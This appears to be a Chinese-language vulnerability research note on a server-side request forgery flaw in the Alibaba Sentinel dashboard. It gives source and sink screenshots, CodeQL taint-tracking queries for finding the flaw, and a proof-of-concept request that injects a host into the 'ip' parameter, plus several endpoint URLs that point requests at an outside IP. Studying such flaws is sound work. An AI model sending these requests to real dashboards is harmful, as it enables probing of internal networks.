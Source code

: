 # Sentinel

随着微服务的流行，服务和服务之间的稳定性变得越来越重要。Sentinel 是面向分布式服务架构的**轻量级**流量控制产品，主要以流量为切入点，从流量控制、熔断降级、系统负载保护等多个维度来帮助您保护服务的稳定性。

[介绍](https://blog.csdn.net/u012190514/article/details/81383698)

## SSRF

https://github.com/alibaba/Sentinel/issues/2451

## source

![image-20220102190441213](img/image-20220102190441213.png)

![image-20220102190456538](img/image-20220102190456538.png)

## sink

![image-20220102190519809](img/image-20220102190519809.png)

exp

```
http://127.0.0.1:8080/registry/machine?app=SSRF-TEST&appType=0&version=0&hostname=TEST&ip=localhost:12345%23&port=0
```

## codeql

使用污点分析

其他ssrf不过需要登录。

```
http://127.0.0.1:8080/cluster/state_single?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/authority/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/v1/flow/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/paramFlow/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/resource/machineResource.json?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/system/rules.json?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/gateway/api//list.json?ip=1.116.136.120&port=3333&app=test
```

因为能力有限只能分开弄

```java
/**
 * @id Sentinel
 * @name Ssrf
 * @description Ssrf
 * @kind path-problem
 * @problem.severity warning
 */

import java
import semmle.code.java.dataflow.TaintTracking
import semmle.code.java.dataflow.FlowSources
import semmle.code.java.security.QueryInjection
import DataFlow::PathGraph



class SsrfConfig extends TaintTracking::Configuration {
  SsrfConfig() { this = "SsrfConfig" }

  override predicate isSource(DataFlow::Node src) { 
    src instanceof RemoteFlowSource
  }//默认参数

  override predicate isSink(DataFlow::Node sink) {
    exists(//触发set ip操作
      Parameter p | p = sink.asParameter() and p.getCallable().getName() = "setIp" and p.getName() = "ip"
  )
  }
}

from SsrfConfig config, DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select source.getNode(), source, sink, "source"
```

```java
import java
    
from MethodAccess call, Method method, DataFlow::Node src
where method.hasName("setIp") and method.getDeclaringType().getAnAncestor().hasQualifiedName("com.alibaba.csp.sentinel.dashboard.discovery", "MachineInfo") and call.getMethod() = method and src instanceof RemoteFlowSource 
select call
```


